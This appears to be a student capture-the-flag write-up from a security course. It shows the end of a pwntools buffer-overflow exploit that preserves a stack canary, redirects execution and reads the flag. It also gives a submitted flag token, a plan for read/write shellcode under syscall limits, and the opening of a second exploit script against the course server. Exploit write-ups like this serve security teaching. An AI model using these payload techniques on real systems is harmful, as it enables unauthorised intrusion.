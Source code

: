 ```
p.sendline(size)
log.info(f"Sent a, and {size}")

payload1 = b'a'*96 + canary + b'a'*addr + p32(0x080486c6) + b'\n'

log.info(f"{payload1}")
p.sendline(payload1)
line = p.recvuntil(b'quit', drop=True)
p.sendline(b'd')
log.info("You chose d")
p.sendline("cat flag")
flag = p.recvline()
log.info(f"Flag obtained: {flag}")
p.interactive()
```

simple
================================================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiMi1zaW1wbGUiLCJpcCI6IjE0NC4xMzYuMjguMzYiLCJzZXNzaW9uIjoiM2U5NzY1ZDgtNWU3Mi00NWI3LTgxZDYtMTJjZjJmMDI0YzdlIn0.HCgnuqkzaYEqw1nAP0hyi2XNVxiNn2h-OJLPZaqNwWA}

General overview of problems faced
------------------------------------------------
We need to inject shellcode, but most of our syscalls are disabled. From the program, it seems like sys_read and sys_write can be used. 
The idea is to read the flag file in FD 1000 using sys_read, and store it somewhere. Then, use sys_write to print it stdout.
sys_read: 
eax needs to be set to 0x3
ebx needs to be set to the FD which is 1000
ecx is a buffer so we need to set some space on the stack
edx is the count, how many characters to read, set a reasonable amount.
sys_write:
eax set to 0x4
ebx set to 1 for stdout
No need to change ecx since we use the same buffer (which contains our flag)
edx is the count, should be same as sys_read's edx.
Script/Command used
----------------------------------------------------
```
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = './simple' #Change this

PROGNAME = exe
REMOTE = "comp6447.wtf" #Change this
REMOTEPORT = 17521 #Change this
global p
global e
global global_timeout

e = ELF(PROGNAME)

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
```